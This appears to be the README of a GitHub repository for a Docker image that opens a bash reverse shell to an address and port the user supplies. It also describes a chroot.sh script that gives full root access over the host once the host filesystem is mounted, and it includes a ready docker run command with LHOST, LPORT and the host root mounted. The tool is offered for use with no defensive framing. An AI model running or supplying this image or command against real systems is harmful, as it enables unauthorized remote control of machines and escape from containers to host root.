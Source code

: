 # Docker reverse shell

A docker image that will connect back to given address port
with a bash reverse shell.

It also contains an useful chroot.sh script
that if the host volume is mounted on /tmp/root, will
give full root access over the host machine.

```sh
docker run -e LHOST=... -e LPORT=... -v /:/mnt/root creekorful/docker-rshell
```
